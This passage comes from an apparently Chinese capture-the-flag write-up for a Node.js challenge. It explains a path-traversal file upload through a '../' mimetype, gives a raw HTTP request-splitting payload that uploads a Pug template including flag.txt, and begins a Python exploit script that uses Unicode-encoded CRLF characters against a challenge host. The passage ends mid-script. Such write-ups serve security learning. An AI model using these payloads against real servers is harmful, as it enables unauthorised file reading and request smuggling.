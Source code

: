 ```js
        const trigger = url.includes(evilwords[i]);
        if (trigger === true) {
            return true
        }
    }
}

var server = app.listen(8081, function() {
    var host = server.address().address
    var port = server.address().port
    console.log("Example app listening at http://%s:%s", host, port)
})

```

有上面两个题的铺垫，这个代码就会好理解一些

这个题改编的地方在于多了一个任意文件上传，可以通过`../`的mimetype来进行目录穿越，pug渲染会借助我们上传的.pug模板，在这里包含flag.txt

通过抓包修改内容来做payload

```http
HTTP/1.1
Host: amiz
Connection: keep-alive

POST /file_upload HTTP/1.1
Host: amiz
Content-Length: 266
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4RZFWBFQ4MBn61cf
Cache-control: no-cache
Connection: keep-alive

------WebKitFormBoundary4RZFWBFQ4MBn61cf
Content-Disposition: form-data; name="file"; filename="amiz.pug"
Content-Type: /../template

doctype html
html
  head
    style
      include ../../../../../../../flag.txt
------WebKitFormBoundary4RZFWBFQ4MBn61cf--

GET /flag HTTP/1.1
Host: amiz
Connection: close
amiz:
```

使用上面我们已经构造好的通用exp.py构造payload

```python
import requests
from requests.utils import quote

url = 'http://5214b607-8520-4572-9bfc-d289a0e0c4f8.node4.buuoj.cn:81/core?q='
SPACE = u'\u0120'
CRLF = u'\u010d\u010a'
SLASH = u'\u012f'
DOUBLE_MARK = u'\u0122'
SINGLE_MARK = u'\u0127'

_payload = '''HTTP/1.1
Host: amiz
Connection: keep-alive
```